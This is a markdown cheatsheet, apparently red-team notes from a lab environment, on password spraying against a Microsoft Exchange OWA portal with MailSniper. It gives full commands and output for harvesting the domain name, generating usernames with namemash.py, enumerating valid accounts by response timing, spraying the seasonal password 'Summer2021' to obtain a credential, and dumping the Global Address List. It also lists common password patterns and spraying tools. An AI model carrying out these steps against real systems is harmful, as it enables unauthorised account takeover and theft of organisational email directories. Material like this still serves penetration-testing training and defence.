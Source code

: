 # Password Spraying

### Common pattern:

* MonthYear (September2021)
* SeasonYear (Spring2021)
* DayDate (Wednesday1)

### Cheatsheet

Using `ipmo` to import the .ps1 script

```
PS C:\> ipmo C:\Tools\MailSniper\MailSniper.ps1
```

Enumerate the NetBIOS name with `Invoke-DomainHarvestOWA`

```
PS C:\> Invoke-DomainHarvestOWA -ExchHostname 10.10.15.100
[*] Harvesting domain name from the server at 10.10.15.100
The domain appears to be: CYBER or cyberbotic.io
```

Generate potential usernames using [namemash.py](https://gist.github.com/superkojiman/11076951)

```
root@kali:~# /opt/namemash.py names.txt >> possible-usernames.txt
root@kali:~# head -n 5 possible-usernames.txt
bobfarmer
farmerbob
bob.farmer
farmer.bob
farmerb
```

Enumerating usernames using `Invoke-UsernameHarvestOWA`

```
PS C:\> Invoke-UsernameHarvestOWA -ExchHostname 10.10.15.100 -Domain CYBER -UserList .\possible-usernames.txt -OutFile valid.txt
[*] Now spraying the OWA portal at https://10.10.15.100/owa/
Determining baseline response time...
Response Time (MS)       Domain\Username
770                      CYBER\nigojk
766                      CYBER\hnIYRl
763                      CYBER\DlQFbq
767                      CYBER\ghyWXj
771                      CYBER\uQbXAI

         Baseline Response: 767.4

Threshold: 460.44
Response Time (MS)       Domain\Username
764                      CYBER\THdtMw
776                      CYBER\rVNvmq
854                      CYBER\AvaPOc
767                      CYBER\ZQpHFz
764                      CYBER\WYTZHK
77                       CYBER\iyates
[*] Potentially Valid! User:CYBER\iyatesgs
[*] A total of 1 potentially valid usernames found.
Results have been written to valid.txt.

```

Password spraying using `Invoke-PasswordSprayOWA`

```
PS C:\> Invoke-PasswordSprayOWA -ExchHostname 10.10.15.100 -UserList .\valid.txt -Password Summer2021
[*] Now spraying the OWA portal at https://10.10.15.100/owa/
[*] SUCCESS! User:CYBER\iyates Password:Summer2021
[*] A total of 1 credentials were obtained.
```

Retrieving the Global Address List (GAL) using `Get-GlobalAddressList`

```
PS C:\> Get-GlobalAddressList -ExchHostname 10.10.15.100 -UserName CYBER\iyates -Password Summer2021 -OutFile gal.txt
[*] First trying to log directly into OWA to enumerate the Global Address List using FindPeople...
[*] This method requires PowerShell Version 3.0
[*] Using https://10.10.15.100/owa/auth.owa
[*] Logging into OWA...
[*] OWA Login appears to be successful.
[*] Retrieving OWA Canary...
[*] Successfully retrieved the X-OWA-CANARY cookie: ahhlRb0kZUKEg8YEo5ZZtQDYwqU8EdkIl7OJ7_ugwGfk56YCYe0ilgE2GKVxCNJTMpqknR3QJ_M.
[*] Retrieving AddressListId from GetPeopleFilters URL.
[*] Global Address List Id of b4477ba8-52b0-48bf-915e-d179db98788b was found.
[*] Now utilizing FindPeople to retrieve Global Address List
[*] Now cleaning up the list...
bfarmer@cyberbotic.io
iyates@cyberbotic.io
jadams@cyberbotic.io
jking@cyberbotic.io
nglover@cyberbotic.io
[*] A total of 5 email addresses were retrieved
[*] Email addresses have been written to gal.txt
```

### Tools

* [MailSniper](https://github.com/dafthack/MailSniper) - Searching email in Microsoft Exchange, enumerating users and domains, gathering Global Address List (GAL) from OWA and EWS...
* [namemash.py](https://gist.github.com/superkojiman/11076951) - Creating a user name list for brute force attacks.
* [SprayingToolkit](https://github.com/byt3bl33d3r/SprayingToolkit) - Password spraying attacks against Lync/S4B, OWA & O365

